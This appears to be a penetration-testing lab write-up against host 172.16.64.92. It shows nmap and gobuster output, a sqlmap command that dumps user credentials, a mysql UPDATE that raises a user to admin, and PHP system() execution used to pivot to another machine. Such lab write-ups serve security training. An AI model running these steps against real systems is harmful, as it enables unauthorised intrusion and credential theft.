






# 172.16.64.92
```
Nmap scan report for 172.16.64.92
Host is up (0.092s latency).
Not shown: 993 closed ports
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:86:09:b3:d6:d1:ba:d0:28:65:33:b7:82:f7:a6:34 (RSA)
|   256 3b:d7:39:c3:4f:c4:71:a2:16:91:d1:8f:ac:04:a8:16 (ECDSA)
|_  256 4f:43:ac:70:09:a6:36:c6:f5:b2:28:b8:b5:53:07:4c (ED25519)
42/tcp    filtered nameserver
53/tcp    open     domain        dnsmasq 2.75
| dns-nsid: 
|_  bind.version: dnsmasq-2.75
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photon by HTML5 UP
1070/tcp  filtered gmrupdateserv
3333/tcp  filtered dec-notes
30000/tcp filtered ndmps
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
gobuster dir -u 172.16.64.92/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.64.92/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/08/18 15:35:41 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 200) [Size: 2129]
/assets               (Status: 200) [Size: 1497]
                                                
===============================================================
2021/08/18 15:48:18 Finished
===============================================================
```

Going to the URL gives us a random alert box saying `Loaded!` and checking the source code we see a js file that looks interesting when we view the source. 




If we try to go to the URL it will fail by saying `null null`, but removing the 2 at the end gives us an input box which we can use sqli on the `id` value


sqlmap enumeration with `sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=3 --dump -D footracking -T users` will return 4 username:password combinations. 


Web enumeration with gobuster shows us a `login.php` where we can login as the `tracking1` user. There's no privileges under this account, but  viewing the source of the page we see db credentials


Connecting to the db and executing the following commands will get `tracking1` to an admin user:
```
mysql -u dbuser -p -P 63306 -h 172.16.64.92
[enter password]
use footracking;
update users set adm="yes" where username="tracking1";
select * from users;
```
Then we just have to log out and back in. Now we have php code execution, you can poke around but will ultimately get to `system("cat /etc/hosts");` which will give you the website for the `172.16.64.91` machine

